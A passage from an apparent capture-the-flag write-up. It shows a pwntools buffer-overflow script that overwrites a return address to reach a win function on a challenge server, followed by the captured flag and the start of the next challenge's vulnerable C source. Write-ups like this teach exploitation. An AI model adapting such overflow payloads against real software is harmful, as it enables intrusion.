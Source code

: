 ### Script
```python
from pwn import *

sub_address = 0x401236

p = remote('challs.nusgreyhats.org', 32345)

p.sendlineafter('name: ', b'S4nGxG')
p.sendlineafter('Input: ', b'1')
p.sendlineafter('(1-5): ', b'5')

payload = b'A'*40
payload += p64(sub_address)

p.sendlineafter('name: ', payload)

p.interactive()
```
> ### *grey{4s_34sy_4s_t4k1ng_c4ndy_fr4m_4_b4by}*

# **The Motorala**
### Source code
```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>


char* pin;

// this is the better print, because i'm cool like that ;)
void slow_type(char* msg) {
        int i = 0;
        while (1) {
                if (!msg[i])
                        return;
                putchar(msg[i]);
                usleep(5000);
                i += 1;
        }
}

void view_message() {
        int fd = open("./flag.txt", O_RDONLY);
        char* flag = calloc(0x50, sizeof(char));
        read(fd , flag, 0x50);
        close(fd);
        slow_type("\n\e[1;93mAfter several intense attempts, you successfully breach the phone's defenses.\nUnlocking its secrets, you uncover a massive revelation that holds the power to reshape everything.\nThe once-elusive truth is now in your hands, but little do you know, the plot deepens, and the journey through the clandestine hideout takes an unexpected turn, becoming even more complicated.\n\e[0m");
        printf("\n%s\n", flag);
        exit(0);
}

void retrieve_pin(){
```